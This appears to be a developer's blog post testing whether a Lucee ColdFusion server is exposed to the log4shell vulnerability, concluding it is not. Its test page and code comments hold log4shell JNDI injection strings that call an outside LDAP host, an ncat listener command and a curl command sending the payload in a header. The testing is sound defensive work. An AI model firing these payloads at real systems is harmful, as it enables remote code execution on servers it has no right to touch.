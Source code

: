 ```yaml
---
title: ColdFusion log4shell
date: 2021-12-13
tags:
    - coldfusion
---
```


In light of the "wonderful" log4j exploit, I was tasked with exploring my company's ColdFusion
codebase to see if it was exploitable. We are using a flavor of ColdFusion called Lucee.

In summary, Lucee 5.3.4 was not vulnerable. This fact was also confirmed in this [official Lucee post](https://dev.lucee.org/t/lucee-is-not-affected-by-the-log4j-jndi-exploit-cve-2021-44228/9331).

This page will provide a basic interface to test the exploit described in https://github.com/leonjza/log4jpwn.
See notes in bottom of source for initializing reverse shell.

`log4shell.cfm`

```
<html>
  <body>
    <h2>log4shell test</h2>
    <hr>
    <div style="margin-bottom: 50px;">
        Setup attacker with &nbsp;<code>ncat -k -vv -c "calc.exe" -l 18081</code>
        <br>
        Try this: &nbsp;<code>${jndi:ldap://192.168.10.123:18081/a}</code>
    </div>
    <form action="./index.cfm">
        <label for="logIt">Enter string to log:</label>
        <input type="text" id="logIt" name="logIt" required></input>
        <input type="submit" value="submit"/>
    </form>
    <cfscript>
      main();
      private void function main(){
        if (structKeyExists(url, 'logIt')) {
            writeOutput('You entered: <code>#url.logIt#</code>');
            writeLog(file='log4shell', text='#url.logIt#', type='error'); // nothing
            writeDump(var='#url.logIt#', output='console');               // nothing
            systemOutput('#url.logIt#');                                  // nothing
        }
      }
      /*  Other notes
        Basic log4shell test to ensure my reverse shell was working right
          - clone and build https://github.com/leonjza/log4jpwn
          - ncat -k -vv -c "calc.exe" -l 8081
          - docker run --rm -p8080:8080 log4jpwn
          - curl -H 'User-Agent: ${jndi:ldap://192.168.10.123:18081/a}' localhost:8081
          - This opens calculator on target system
        Setup this testing page in lucee (5.3.4) at /log4shell.cfm
          - ncat -k -vv -c "calc.exe" -l 18081
          - https://myserver:8482/log4shell.cfm?logIt=%24%7Bjndi%3Aldap%3A%2F%2F192.168.10.123%3A18081%2Fa%7D
          - entered value '${jndi:ldap://192.168.10.123:18081/a}' into form and submitted
          - Lucee seems to be safe
        
        Also read: https://dev.lucee.org/t/lucee-is-not-affected-by-the-log4j-jndi-exploit-cve-2021-44228/9331
      */
    </cfscript>
  </body>
</html>
```

A gist for this code is available [here](https://gist.github.com/barrettotte/01ef8db67b30af49533f83552b5d0450).
